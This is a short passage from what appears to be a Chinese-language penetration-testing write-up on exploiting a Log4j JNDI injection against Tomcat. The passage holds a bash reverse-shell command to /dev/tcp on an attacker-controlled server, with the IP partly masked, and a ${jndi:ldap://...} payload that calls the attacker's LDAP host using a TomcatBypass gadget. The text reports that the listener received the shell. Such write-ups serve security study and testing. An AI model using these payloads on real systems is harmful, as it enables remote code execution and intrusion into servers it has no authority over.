 ### 4.反弹shell

#### 4.1直接反弹shell

构造以下payload，反弹shell

```
cmd: bash -i >& /dev/tcp/47.xxx.xxx.xxx/5555 0>&1

c=${jndi:ldap://47.xxx.xxx.xxx:9999/TomcatBypass/TomcatEcho}
```



![image-20211214120702548]($imgs/image-20211214120702548.png)

VPS服务器监听5555端口，成功反弹shell。

![image-20211214120806942]($imgs/image-20211214120806942.png)
